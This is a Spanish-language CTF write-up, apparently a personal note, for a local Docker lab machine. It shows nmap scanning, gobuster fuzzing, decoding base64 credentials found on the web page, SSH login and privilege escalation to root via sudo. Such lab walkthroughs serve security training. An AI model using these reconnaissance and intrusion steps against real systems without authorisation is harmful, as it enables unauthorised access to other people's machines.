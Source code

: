 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh
```

![[Pasted image 20250131142942.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250131143033.png]]

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![[Pasted image 20250131145014.png]]

Nos metemos en la web:

![[Pasted image 20250131144417.png]]

```
sjd c2pkCg==
admin YWRtaW4K
root MTk3MQo=
```

Encontramos estos usuarios y contraseñas.

Desciframos la contraseña de admin:

```
echo YWRtaW4K | base64 -d
```

![[Pasted image 20250131144455.png]]

Nos conectamos con **SSH**:

```
ssh admin@172.17.0.2
```

![[Pasted image 20250131144159.png]]

Elevamos privilegios:

```
sudo -l
```

![[Pasted image 20250131144041.png]]

```
sudo su
```

![[Pasted image 20250131144102.png]]

```
whoami
```

![[Pasted image 20250131144116.png]]

Otra forma:

Desciframos la contraseña de root:

```
echo MTk3MQo= | base64 -d
```

![[Pasted image 20250131144523.png]]

Nos conectamos con **SSH**:

```
ssh root@172.17.0.2
```

![[Pasted image 20250131144238.png]]

```
whoami
```

![[Pasted image 20250131144251.png]]


